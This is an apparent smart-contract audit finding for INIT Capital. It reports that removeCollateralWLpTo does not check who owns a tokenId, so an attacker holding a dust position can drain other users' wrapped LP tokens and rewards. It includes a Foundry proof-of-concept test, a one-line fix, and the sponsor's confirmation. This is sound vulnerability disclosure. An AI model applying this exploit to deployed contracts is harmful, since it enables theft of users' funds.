 This function could be called only from the core contract using the `decollateralizeWLp` and `liquidateWLp` functions. However, it fails to check if the specified `tokenId` belongs to the current position, this check would take place only if removing is full - meaning no lp tokens remain wrapped in the wLp (line 257).

This would allow anyone to drain any other positions with supplied wLp tokens. The attacker only needs to create its own position, supply dust amount in wLp to it, and call `decollateralizeWLp` with the desired 'tokenId', also withdrawn amount should be less than the full wLp balance to prevent check on line 257. An attacker would receive almost all lp tokens and accrued rewards from the victim's wLp.

A similar attack for harvesting the victim's rewards could be done through the `liquidateWLp` function.

### Impact

Attacker could drain any wLp token and harvest all accrued rewards for this token.

### Proof of Concept

The next test added to the `tests/wrapper/TestWLp.sol` file could show an exploit scenario:

```solidity
    function testExploitStealWlp() public {
        uint victimAmt = 100000000;
        // Bob open position with 'tokenId' 1
        uint bobPosId = _openPositionWithLp(BOB, victimAmt);
        // Alice open position with 'tokenId' 2 and dust amount 
        uint alicePosId = _openPositionWithLp(ALICE, 1);
        // Alice successfully de-collateralizes her own position using Bob's 'tokenId' and amounts less than Bob's position by 1 to prevent a revert
        vm.startPrank(ALICE, ALICE);
        initCore.decollateralizeWLp(alicePosId, address(mockWLpUniV2), 1, victimAmt - 1, ALICE);
        vm.stopPrank();

        emit log_uint(positionManager.getCollWLpAmt(bobPosId, address(mockWLpUniV2), 1));
        emit log_uint(IERC20(lp).balanceOf(ALICE));
    }

```

### Recommended Mitigation Steps

Consider adding a check that position holds the specified token into the `removeCollateralWLpTo` function:

```solidity
_require(__posCollInfos[_posId].ids[_wlp].contains(_tokenId), Errors.NOT_CONTAIN);
```

**[fez-init (INIT) confirmed](https://github.com/code-423n4/2023-12-initcapital-findings/issues/31#issuecomment-1870313456)**

***

